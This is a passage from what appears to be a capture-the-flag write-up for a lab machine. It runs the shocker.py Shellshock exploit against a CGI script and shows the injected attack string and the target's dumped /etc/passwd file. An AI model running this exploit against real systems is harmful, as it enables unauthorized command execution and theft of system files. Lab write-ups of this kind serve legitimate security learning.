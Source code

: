 Reference: *https://github.com/nccgroup/shocker/blob/master/shocker.py*

No changes were made to the script's code.

Here we configure our use of the *shocker.py* script. We attempt to execute a  command on the target machine that will output the contents of the */etc/passwd* file.

```bash
python2 shocker.py -H 10.10.10.56 --command "/bin/cat /etc/passwd" -c /cgi-bin/user.sh --verbose
```

We see that our command executed successfully given the output:

```bash
[+] Single target '/cgi-bin/user.sh' being used
[+] Checking connectivity with target...
[I] Checking to see if 10.10.10.56 resolves...
[I] Resolved ok
[I] Checking to see if 10.10.10.56 is reachable on port 80...
[I] 10.10.10.56 seems reachable...
[+] Target was reachable
[+] Looking for vulnerabilities on 10.10.10.56:80
[I] Starting thread 1
[+] Finished host scan
[+] 1 potential target found, attempting exploits
[+] Trying exploit for http://10.10.10.56:80/cgi-bin/user.sh
[I] Flag set to: URX7FDHT9JYCI17YIPWI
[I] Header is: Content-type
[I] Attack string is: () { :;}; echo;  echo URX7FDHT9JYCI17YIPWI; /bin/cat /etc/passwd
[!] http://10.10.10.56:80/cgi-bin/user.sh looks vulnerable
[!] Response returned was:
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
  systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
  systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
  systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
  syslog:x:104:108::/home/syslog:/bin/false
  _apt:x:105:65534::/nonexistent:/bin/false
  lxd:x:106:65534::/var/lib/lxd/:/bin/false
  messagebus:x:107:111::/var/run/dbus:/bin/false
  uuidd:x:108:112::/run/uuidd:/bin/false
  dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
  sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
  shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```
